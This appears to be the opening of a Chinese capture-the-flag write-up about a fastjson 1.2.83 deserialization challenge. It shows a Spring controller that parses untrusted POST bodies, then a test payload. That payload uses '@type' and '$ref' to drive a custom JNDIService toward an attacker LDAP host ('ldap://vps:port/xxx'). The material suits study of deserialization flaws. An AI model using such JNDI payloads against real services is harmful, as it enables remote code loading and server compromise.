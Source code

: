 0x01 还原题目
=========

![image-20220906194219933](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-73f7dd991b8f9910ed5669bdb33866b6913c9dad.png)

源码内容不多，只有一个解析控制器，

```java
@RequestMapping({"/ApiTest"})
public class JsonApiTestController {
    @Autowired
    private ApiTestService apiTestService;

    public JsonApiTestController() {
    }

    @GetMapping({"/get"})
    public String getApiTest() {
        return this.apiTestService.getMsg().toString();
    }

    @PostMapping({"/post"})
    public String postApiTest(HttpServletRequest request) {
        ServletInputStream inputStream = null;
        String jsonStr = null;

        try {
            inputStream = request.getInputStream();
            StringBuffer stringBuffer = new StringBuffer();
            byte[] buf = new byte[1024];
            boolean var6 = false;

            int len;
            while((len = inputStream.read(buf)) != -1) {
                stringBuffer.append(new String(buf, 0, len));
            }

            inputStream.close();
            jsonStr = stringBuffer.toString();
            return ((Message)JSON.parseObject(jsonStr, Message.class)).toString();
        } catch (IOException var7) {
            var7.printStackTrace();
            return "Test fail";
        }
    }
}
```

主要关注到`/ApiTest/post`控制器，接收了传入的数据参数，并且使用`JSON.parseObject`函数解析数据，从而触发fastjson反序列化，

但是在这里fastjson的版本为`1.2.83`，目前是没有公布什么新的解析漏洞的，因此把目光转向题目自定义的类，给出了一个Test类，主要大致代码如下：

```java
public class Test {
    public Test() {
    }

    public static void main(String[] args) throws IOException, InterruptedException {
        String jsonStr = "{\"content\" : {\"@type\": \"ycb.simple_json.service.JNDIService\", \"target\":\"ldap://vps:port/xxx\"}, \"msg\":{\"$ref\":\"$.content.context\"}}";
        System.out.println(jsonStr);
        Object obj = ((Message)JSON.parseObject(jsonStr, Message.class)).toString();
        System.out.println(obj);
    }
}
```
